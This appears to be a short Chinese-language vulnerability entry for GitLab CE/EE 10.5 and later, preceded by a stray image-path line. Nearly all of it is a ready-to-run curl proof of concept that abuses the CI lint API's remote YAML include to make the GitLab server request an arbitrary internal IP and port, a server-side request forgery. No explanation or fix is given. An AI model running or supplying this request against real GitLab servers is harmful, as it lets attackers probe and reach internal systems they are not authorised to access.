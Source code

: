 <languages />

漏洞影響
--------

    GitLab CE/EE >=10.5

POC
---

    curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://<ip>:<port>/api/v1/targets?test.yml"}'